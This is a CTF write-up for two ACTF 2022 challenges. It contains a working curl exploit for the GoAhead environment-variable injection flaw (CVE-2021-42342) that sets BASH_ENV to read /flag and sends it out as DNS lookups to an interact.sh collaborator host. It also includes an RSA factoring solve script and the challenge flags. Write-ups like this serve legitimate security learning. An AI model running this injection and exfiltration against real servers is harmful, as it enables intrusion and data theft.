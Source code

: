 I couldn't dedicate much time to the [ACTF'22](https://adworld.xctf.org.cn/competition/detail?id=186&hash=ba9b2b4c-7265-45ce-aa4b-c917bc5ce1bc.event) so I only looked at the two most solved challenges. One web and one crypto. The level was pretty high.

## Gogogo (Web - 118 solves)

We are given a Dockerfile that installs version 5.1.4 of [GoAhead](https://github.com/embedthis/goahead/), "The most popular little embedded web server", and a small bash CGI script that just prints a welcome and displays the environment variables. 

By searching bugs for that version we find CVE-2021-42342 which allows to set arbitrary environment variables while uploading a file. 

First I tried a public exploit that tries to upload and execute a shared library with `LD_PRELOAD` but couldn't make it work, possibly due to lack of execute permissions. Then I moved to setting `BASH_ENV` and after a little fiddling in a local setup, it worked. We have no wget, curl or netcat in the container, but we have ping, and with the help of a collaborator server we can use it to exfiltrate data via DNS requests.

The exploit:

```bash
curl -v -X POST \
-F $'BASH_ENV=$(ping $(head -c 32 /flag|base64|tr -d "="|tr "/" "."|tr "+" "-").xxx.interact.sh)'  \
http://123.60.84.229:10218/cgi-bin/hello
```

- This sets BASH_ENV to our command. `BASH_ENV=$(ping $(head -c 32 /flag|base64|tr -d "="|tr "/" "."|tr "+" "-").xxx.interact.sh)`
- We read a chunk of characters from the /flag file, base64 encode it, replace problematic characters. `head -c 32 /flag|base64|tr -d "="|tr "/" "."|tr "+" "-"`
- This string is then used as the subdomain for our collaborator `ping encoded-flag.xxx.interact.sh`.
- When resolving the IP address to ping it a DNS request is sent to the DNS server and forwarded to our DNS server.
- We replace back any character necessary, base64 decode and keep getting pieces until we got them all. 

ACTF{s1mple_3nv_1nj3ct1on_and_w1sh_y0u_hav3_a_g00d_tim3_1n_ACTF2022}

After seeing the size of the flag I'm glad I tried ping before going with the time based exfiltration. 

## Impossible RSA (crypto - 114 solves)

We are given a public key, the encrypted flag and the script used to generate the key. From the script we get the following relationship between the private primes `e * q = 1 mod p`. Then there is an integer `0 < k < e` such that `e * q = k * p + 1` and we rearrange to get an expression for `p = (e * q - 1) / k`. Finally replacing into `n = p * q` we get `n = (e * q - 1) * q / k` where `n` and `e` are known from the public key and we can brute force `k` to get one of the primes and divide `n` by it to get the other.

```python
from Crypto.Util.number import *
from Crypto.PublicKey import RSA
import gmpy2
gmpy2.get_context().precision=2048
from base64 import b64decode

key64 = b'MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQB+pWAiyLgiiDUmsUJs4sGi\
BJeEwLvitqUvBVtcgPEFK4vO4G6CNAd3JlN8zBqJRBVn1FRlcxGPPXuJgIjMOkyV\
G4vo3mLr/v/pER79JrPgP8E5hShao5rujsue8NUq9+r1dUsnqU3gEiPyZspAG+//\
8P7TW0XcvCy5olRZqkV/QD6dlqjBaufWgTL2iMCtkadXT99ETmmgDVJ/GE51xErz\
pE8poKXjJqnwZEWEjdcqO1RXHKLAcmm3mpQEGbFOXWlb2cqSnKTbtJ0cVQ93y3gA\
mjCCBJrQLulx+5Oyn2+1rkRlHuMSq82DC0qAMvbc/DTjlTVYSC+GvIpEEFR344/5\
AgMBAAE='
keyDER = b64decode(key64)
keyPub = RSA.importKey(keyDER)

cip64 = b'QYkUrwPdlV2j2gjzbJMUp2mJjSbJbBT1mShzPTC10d/3xwec8Q6XqZ82Jvn4V2JtETammSDNBbRc\
Lgr0JhpAAdxqbyU7Z49025Y+PEH9BI6e9Z5B+FnQYPyAiYhDHO6Ory+oH0+0FzWtc3t4OwLBE3jS\
q2fH5MamgZkq8WzjOLZYntXt0ImxG6/YdGh31f+57jvaNeVTZV+BqRN/eCzaLf65k/YhlGd+V0to\
5wj7bqrrzs7tJPC9N16S5IRgTpg3VpOXEkaYuhFMv28Kaekwe5opXz362MpgqitKoclLRUuaQ+Bk\
sTGosFr98bbiauPMTFMZE7k/WXVi9Zn35eYC/g=='
cip = int.from_bytes(b64decode(cip64),'big')

n = n=gmpy2.mpz(keyPub.n)
e = keyPub.e

for k in range(1,65537):
  q = gmpy2.sqrt(n * k // e)
  q = int(q)
  if e * q ** 2 - q == n * k:
    p = n // q
    print("q=", q)
    print("p=", p)
    phi = (p-1) * (q-1)
    d = inverse(e,phi)
    msg = pow(cip,d,n)
    print(int(msg).to_bytes(256, byteorder='big'))
    exit()
```

Originally I was trying to derive `d` directly and getting no where so by the time I came with this solution the CTF had ended and didn't get the points. :( 

ACTF{F1nD1nG_5pEcia1_n_i5_nOt_eA5y}

There were 36 challenges in total and would have liked trying my luck with others since this two were fun and well done. The second tier of challenges had around 20 solves each so again this was not an easy CTF will keep an eye on it for coming years.